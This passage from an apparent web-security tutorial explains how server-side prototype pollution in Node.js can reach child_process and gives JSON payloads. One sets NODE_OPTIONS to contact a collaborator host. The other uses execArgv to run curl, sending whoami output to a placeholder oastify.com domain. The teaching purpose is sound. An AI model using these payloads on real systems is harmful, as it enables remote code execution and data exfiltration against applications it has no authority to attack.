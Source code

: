 There are a number of potential command execution sinks in Node, many of which occur in the `child_process` module. These are often invoked by a request that occurs asynchronously to the request with which you're able to pollute the prototype in the first place. As a result, the best way to identify these requests is by polluting the prototype with a payload that triggers an interaction with Burp Collaborator when called. 

The `NODE_OPTIONS` environment variable enables you to define a string of command-line arguments that should be used by default whenever you start a new Node process. 

```
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```
### Remote code execution via child_process.fork()

Methods such as `child_process.spawn()` and `child_process.fork()` enable developers to create new Node subprocesses. The `fork()` method accepts an options object in which one of the potential options is the execArgv property. This is an array of strings containing command-line arguments that should be used when spawning the child process. If it's left undefined by the developers, this potentially also means it can be controlled via prototype pollution. 

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com/?out=$(whoami)')"
    ]
}
```

In addition to `fork()`, the `child_process` module contains the `execSync()` method, which executes an arbitrary string as a system command. 

